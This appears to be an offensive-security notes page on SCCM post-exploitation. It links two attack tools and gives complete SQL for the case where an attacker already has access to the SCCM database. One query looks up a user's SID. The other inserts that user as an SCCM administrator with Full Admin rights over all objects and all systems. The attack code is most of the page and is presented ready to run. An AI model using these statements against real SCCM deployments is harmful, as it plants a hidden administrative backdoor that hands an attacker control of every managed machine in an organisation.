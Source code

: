 # SCCM

## Tools

[sccmhunter](https://github.com/garrettfoster13/sccmhunter/wiki/admin) - remote actions to sccm site

[SharpSCCM ](https://github.com/Mayyhem/SharpSCCM)- portable tool to postexploit&#x20;



## Postexploit

If we got database sccm, we can manually add sccm admin. Firstly get SID:

```sql
USE CM_<SITE_CODE>;
GO

DECLARE @binSID VARBINARY(85) = SUSER_SID('ICG\r_horse');
SELECT '0x' + SUBSTRING(sys.fn_varbintohexstr(@binSID), 3, 100) AS HexSID;

```

And now add admin

```sql
USE CM_ICG; -- ICG is site code
GO

INSERT INTO RBAC_Admins
  (AdminSID, LogonName, IsGroup, IsDeleted, CreatedBy, CreatedDate, ModifiedBy, ModifiedDate, SourceSite)
SELECT
  0x010500000000000515000000e2451490860880eb2477c972a5040000,         -- binary SID user in hex
  'icg\r_horse',                                                     -- login in format DOMAIN\User
  0,                                                                   
  0,                                                                   
  '', GETDATE(),                                                      -- CreatedBy/CreatedDate
  '', GETDATE(),                                                      -- ModifiedBy/ModifiedDate
  'ICG'                                                       -- Site Code
WHERE NOT EXISTS (
  SELECT 1 FROM RBAC_Admins WHERE LogonName = 'ICG\r_horse'
);  


DECLARE @AdminID INT = (
  SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'icg\r_horse'
);


INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID)
SELECT
  @AdminID,
  V.RoleID,
  V.ScopeID,
  V.ScopeTypeID
FROM (VALUES
  ('SMS0001R', 'SMS00ALL', 29),    -- Full Admin на All Objects
  ('SMS0001R', 'SMS00001', 1)      -- Full Admin на All Systems
) AS V(RoleID, ScopeID, ScopeTypeID)
WHERE NOT EXISTS (
  SELECT 1
  FROM RBAC_ExtendedPermissions
  WHERE AdminID = @AdminID
    AND RoleID = V.RoleID
    AND ScopeID = V.ScopeID
    AND ScopeTypeID = V.ScopeTypeID
);
GO

```
